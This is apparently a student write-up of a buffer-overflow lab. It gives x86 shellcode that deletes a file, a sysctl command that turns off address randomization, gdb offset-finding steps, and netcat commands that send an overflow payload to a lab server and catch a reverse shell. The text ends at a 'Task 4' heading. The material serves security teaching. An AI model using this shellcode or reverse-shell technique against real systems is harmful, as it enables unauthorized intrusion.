 # Task 1: Get Familiar with the Shellcode

Move into the directory "shellcode", create first a file called "remove.txt", and put this content in the shellcode_32.py program for the shellcode variable:

```python
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   "/bin/rm remove.txt                                        *
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```
Then, run:

```console
$ ./shellcode_32.py
$ make
$ ./a32.out
```

And you will see that the file will be removed.

# Task 2: Level-1 Attack

Make always sure that you run the following command to disable the address randomization countermeasure enable by default in every OS:

```console
$ sudo /sbin/sysctl -w kernel.randomize_va_space=0
```

Then, after building and starting all the Docker containers (as explained in the Readme.pdf file), send from the attacker machine a request to the server 10.9.0.5 at the port 9090 using netcat:

```console
$ echo hello | nc 10.9.0.5 9090
```

Substitute the values of EBP and BUF variables inside the file exploit.py in the attacker-code folder using the values returned by the target container, execute that file, open a new shell and start to listen at the port 9090 using netcat in order to reverse the shell and communicate with the server 10.9.0.5 (if running with the "-l" option, becomes a TCP server that listens for a connection on the specified port):

```console
$ nc -nv -l 9090
```

Finally, use netcat to send to the server the created badfile that will overflow the stack of the function bof used by the server, injecting a new return address that will point to the code that reverse the shell:

```console
$ cat badfile | nc 10.9.0.5 9090
```

# Task 3: Level-2 Attack

Create a new Makefile for the server code in which we disable all the mitigations and enable the compilation with the debugging option -g (see Makefile inside server-code-debug folder), then run:

```console
$ make
```

After that, debug the stack-L2.out and stack-L1.out binary files with -q (option that allow to read from a binary file) and execute the following commands for each of the two executables:

```console
$ gdb -q stack-L?
$ b bof
$ pattern create 2000 input
$ r < input
$ p $ebp
$ p &buffer
```

We can notice that the buffer addresses are differents among the two executables, while the ebp addresses are equal. However, even if these addresses are not the same as the real ones used by the programs running on the servers, they suggest to us that the same ebp is used always by the executables. So, just resuing the same ebp retrived in the previous task, and the buffer address returned by the target container, we can exploit another time the buffer overflow lunching a reverse shell.

Notice that the bof function inside the stack program use 3 local variables. If for example 180 bytes are used to store the buffer, 4 + 4 bytes are used for the other two local variables, so the base pointer ebp address is situated after 188 bytes from the buffer's address, specifically at distance equal to 192.

# Task 4: Level-3 Attack